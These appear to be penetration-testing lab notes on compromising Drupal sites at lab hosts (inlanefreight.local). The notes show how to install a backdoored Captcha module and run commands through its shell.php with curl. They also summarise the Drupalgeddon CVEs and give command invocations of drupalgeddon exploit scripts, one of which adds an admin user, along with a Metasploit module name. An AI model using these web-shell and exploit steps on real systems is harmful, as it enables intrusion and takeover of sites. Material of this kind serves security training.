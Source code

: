 Assuming we have administrative access to the website, click on `Manage` and then `Extend` on the sidebar. Next, click on the `+ Install new module` button, and we will be taken to the install page, such as `http://drupal.inlanefreight.local/admin/modules/install` Browse to the backdoored Captcha archive and click `Install`.


Once the installation succeeds, browse to `/modules/captcha/shell.php` to execute commands.


`test webshell`
```shell-session
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```
# Leveraging Known Vulnerabilities:

## CVEs
- [CVE-2014-3704](https://www.drupal.org/SA-CORE-2014-005), known as Drupalgeddon, affects versions 7.0 up to 7.31 and was fixed in version 7.32. This was a pre-authenticated SQL injection flaw that could be used to upload a malicious form or create a new admin user.
    
- [CVE-2018-7600](https://www.drupal.org/sa-core-2018-002), also known as Drupalgeddon2, is a remote code execution vulnerability, which affects versions of Drupal prior to 7.58 and 8.5.1. The vulnerability occurs due to insufficient input sanitization during user registration, allowing system-level commands to be maliciously injected.
    
- [CVE-2018-7602](https://cvedetails.com/cve/CVE-2018-7602/), also known as Drupalgeddon3, is a remote code execution vulnerability that affects multiple versions of Drupal 7.x and 8.x. This flaw exploits improper validation in the Form API.

`duplegon abuse to add user`
```shell-session
$ python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd
```

`metasploit`
```
use drupal_druppagedon
```

## druppagedon2

https://www.exploit-db.com/exploits/44448
```shell-session
python3 drupalgeddon2.py 

################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/hello.txt
```
We can check quickly with `cURL` and see that the `hello.txt` file was indeed uploaded.
